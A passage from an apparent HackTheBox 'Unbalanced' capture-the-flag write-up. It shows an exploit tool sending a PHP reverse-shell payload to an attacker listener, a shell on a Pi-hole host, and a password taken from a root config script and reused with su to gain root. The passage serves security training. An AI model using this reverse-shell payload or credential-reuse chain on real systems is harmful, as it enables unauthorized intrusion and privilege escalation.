  ╩  └┴┘┘└┘  ╩  ┴┴ ┴└─┘┴─┘└─┘
        by @CyberVaca

  [+] Token: TYiXiwh9ctRRTAHZ/5bZz/HX3vfihy6jvq8BYk1yb9w=
  [+] Payload: php -r '$sock=fsockopen("10.10.14.11", 4444);exec("/bin/sh -i <&3 >&3 2>&3");'
  [+] Sending Payload...
----
____

Going back to the listener:
____
[source,shell,subs="+macros,verbatim,quotes"]
----
$ id
  
  uid=33(www-data) gid=33(www-data) groups=33(www-data)

$ hostname
  
  pihole.unbalanced.htb

$ cd /root

$ ls -l

  -rw-r--r-- 1 root root 113876 Sep 20  2019 ph_install.sh
  -rw-r--r-- 1 root root    485 Apr  6  2020 pihole_config.sh

$ cat pihole_config.sh

  \#!/bin/bash

  # Add domains to whitelist
  /usr/local/bin/pihole -w unbalanced.htb
  /usr/local/bin/pihole -w rebalanced.htb

  # Set temperature unit to Celsius
  /usr/local/bin/pihole -a -c

  # Add local host record
  /usr/local/bin/pihole -a hostrecord pihole.unbalanced.htb 127.0.0.1

  # Set privacy level
  /usr/local/bin/pihole -a -l 4

  # Set web admin interface password
  /usr/local/bin/pihole -a -p '##bUbBl3gUm$43v3Ry0n3!##'

  # Set admin email
  /usr/local/bin/pihole -a email admin@unbalanced.htb
  
----
____

The `/root` directory is readable and in there is the Pi-hole config file mentioned earlier. A new password is visible and maybe this could be used to `su` to root:
____
[source,shell,subs="+macros,verbatim,quotes"]
----
+++<span style="color:green">bryan@unbalanced</span>+++:+++<span style="color:#779ECB">~</span>+++$ su -

  Password: bUbBl3gUm$43v3Ry0n3!

+++<span style="color:green">root@unbalanced</span>+++:+++<span style="color:#779ECB">~</span>+++# id

  uid=0(root) gid=0(root) groups=0(root)

+++<span style="color:green">root@unbalanced</span>+++:+++<span style="color:#779ECB">~</span>+++# ls -l

  -rw------- 1 root root 33 Dec  5 14:18 root.txt

----
____

And now, we have root!
